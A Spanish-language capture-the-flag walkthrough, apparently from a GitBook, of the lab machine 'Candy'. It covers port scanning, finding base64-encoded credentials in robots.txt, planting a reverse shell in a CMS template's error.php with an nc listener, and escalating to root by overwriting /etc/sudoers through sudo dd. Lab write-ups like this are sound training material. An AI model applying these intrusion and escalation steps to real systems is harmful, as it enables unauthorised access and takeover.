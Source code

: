 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Candy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (793).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (794).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web llamada Cassiopeia.

<figure><img src="../../.gitbook/assets/image (795).png" alt=""><figcaption></figcaption></figure>

Como nos pide unas credenciales vamos a revisar el archivo `robots.txt` por si contiene algo relevante.

<figure><img src="../../.gitbook/assets/image (796).png" alt=""><figcaption></figcaption></figure>

Vemos unas credenciales pero la contraseña parece ser que está codificada en **base64**.

```bash
echo "c2FubHVpczEyMzQ1" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (797).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (798).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (806).png" alt=""><figcaption></figcaption></figure>

Nos encontramos un directorio llamado `/administrator` y entramos en él y nos pide unas credenciales que hemos encontrado anteriormente.

<figure><img src="../../.gitbook/assets/image (799).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (800).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos a **System** en concreto **Sites Templates** y editamos el archivo `error.php` para hacer una [**Reverse Shell**](https://www.revshells.com/). Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (801).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

```bash
find / -user luisillo 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (802).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido de ese archivo.

```bash
cat /var/backups/hidden/otro_caramelo.txt
```

<figure><img src="../../.gitbook/assets/image (803).png" alt=""><figcaption></figcaption></figure>

Parecen unas credenciales por lo que intentamos loguearnos.

<figure><img src="../../.gitbook/assets/image (804).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos SUDO con dd por lo que revisamos esta [página](https://gtfobins.github.io/gtfobins/dd/).

```bash
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

<figure><img src="../../.gitbook/assets/image (805).png" alt=""><figcaption></figcaption></figure>
